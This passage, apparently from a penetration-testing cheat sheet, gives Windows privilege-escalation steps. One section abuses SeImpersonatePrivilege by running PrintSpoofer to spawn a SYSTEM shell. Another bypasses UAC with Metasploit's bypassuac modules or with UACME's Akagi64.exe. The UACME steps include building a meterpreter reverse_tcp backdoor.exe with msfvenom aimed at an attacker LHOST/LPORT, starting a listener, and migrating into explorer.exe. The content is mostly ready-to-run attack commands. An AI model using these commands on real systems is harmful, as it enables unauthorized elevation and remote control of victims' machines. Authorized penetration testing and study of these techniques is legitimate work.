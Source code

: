 ```powershell
Privilege Name                Description                    State
============================  =============================  ========
SeImpersonatePrivilege        Impersonate a client after...  Enabled
```

2. Copy the executable of PrintSpoofer.exe from [PrintSpoofer repository](https://github.com/itm4n/PrintSpoofer).

3. Execute it:

```powershell
.\PrintSpoofer64.exe -i -c cmd
```
Troubleshooting: https://juggernaut-sec.com/seimpersonateprivilege/#Troubleshooting_PrintSpoofer_Errors
Blog post: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges
{{< /details >}}

{{< hint style=notes >}}
**Note**: There are other tools available to accomplish this, such as **Juicy Potato**, **Rogue Potato**, etc.
{{< /hint >}}

---

## UAC Bypass

User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.

Prerequisites:

1. User must be a member of the Administrators group. `net localgroup administrators`
2. Full interactive shell with the victim like meterpreter (a common nc.exe shell is not enough).

**(1) Metasploit**

```sh
search bypassuac
```

**(2) UACME**

```sh
# 1. Step
ps
migrate <PID explorer.exe>

# 2. Step - Upload Akagi (Akagi64.exe if x64)

# 3. Step - Create payload with msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe

# 4. Step - Start a listener (exploit/multi/handler)

# 5. Step - Run Akagi
Akagi64.exe 23 <payload_full_path> # NOTE FULL PATH

# Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
```

---